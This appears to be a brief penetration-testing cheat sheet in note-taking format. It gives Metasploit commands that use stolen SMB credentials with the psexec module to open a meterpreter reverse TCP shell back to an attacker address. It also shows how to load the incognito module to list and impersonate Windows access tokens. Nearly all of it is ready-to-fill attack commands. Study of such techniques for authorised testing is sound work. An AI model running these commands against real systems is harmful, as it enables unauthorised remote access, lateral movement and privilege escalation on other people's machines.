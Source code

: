 --  -
#### Get Shell
```bash
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp # depends
set rhosts <target ip>
set smbdomain <domain>
set smbuser <username>
set smbpass <password>
set lhost <attack ip>
run
```

^66f29a

#### Icognito Module
Module used for #token-impersonation
```bash
load icognito
list_tokens -u
impersonate_token <user>
```

^c51a79
